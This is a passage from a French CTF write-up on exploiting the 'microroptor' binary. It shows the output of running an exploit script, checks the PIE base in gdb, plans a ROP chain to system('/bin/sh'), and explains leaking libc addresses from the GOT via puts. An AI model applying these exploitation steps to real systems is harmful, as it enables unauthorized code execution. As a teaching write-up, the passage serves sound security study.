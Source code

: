 On exécute avec `python3 exploit.py GDB` :
```
$ python3 exploit.py GDB
[+] Waiting for debugger: Done
[*] exe @ 0x559b54a46000
[*] Switching to interactive mode
$
```
et on compare le résultat avec gdb :
```
gef>  vmmap
[ Legend:  Code | Heap | Stack ]
Start              End                Offset             Perm Path
0x0000559b54a46000 0x0000559b54a47000 0x0000000000000000 r-- /[...]/microroptor
0x0000559b54a47000 0x0000559b54a48000 0x0000000000001000 r-x /[...]/microroptor
0x0000559b54a48000 0x0000559b54a49000 0x0000000000002000 r-- /[...]/microroptor
0x0000559b54a49000 0x0000559b54a4a000 0x0000000000002000 r-- /[...]/microroptor
0x0000559b54a4a000 0x0000559b54a4b000 0x0000000000003000 rw- /[...]/microroptor
```

C'est correct.  
Maintenant, pour la ROP on aimerait exécuter `system("/bin/sh")` qui nécessite
l'adresse de la libc.

### Leak de l'adresse de la libc

La GOT contient les adresses dans la libc des fonctions utiles au programme.
Lors de l'exécution d'un binaire avec full RELRO, toutes les entrées de la GOT
sont résolues avant l'exécution du main. Avec seulement partial RELRO, elle
sont résolues au moment de leur utilisation.

Si l'on regarde les symboles exportés par le binaire, on voit qu'il utilise
`puts`, qui va nous être utile pour leaker l'adresse de la libc :
```sh
$ objdump -R microroptor

microroptor:     format de fichier elf64-x86-64

DYNAMIC RELOCATION RECORDS
OFFSET           TYPE              VALUE
0000000000003da0 R_X86_64_RELATIVE  *ABS*+0x0000000000001160
0000000000003da8 R_X86_64_RELATIVE  *ABS*+0x0000000000001120
0000000000004008 R_X86_64_RELATIVE  *ABS*+0x0000000000004008
0000000000004010 R_X86_64_RELATIVE  *ABS*+0x0000000000002008
0000000000003fd8 R_X86_64_GLOB_DAT  _ITM_deregisterTMCloneTable
0000000000003fe0 R_X86_64_GLOB_DAT  __libc_start_main@GLIBC_2.2.5
0000000000003fe8 R_X86_64_GLOB_DAT  __gmon_start__
0000000000003ff0 R_X86_64_GLOB_DAT  _ITM_registerTMCloneTable
0000000000003ff8 R_X86_64_GLOB_DAT  __cxa_finalize@GLIBC_2.2.5
0000000000003fb8 R_X86_64_JUMP_SLOT  strncmp@GLIBC_2.2.5
0000000000003fc0 R_X86_64_JUMP_SLOT  puts@GLIBC_2.2.5
0000000000003fc8 R_X86_64_JUMP_SLOT  printf@GLIBC_2.2.5
0000000000003fd0 R_X86_64_JUMP_SLOT  read@GLIBC_2.2.5
```
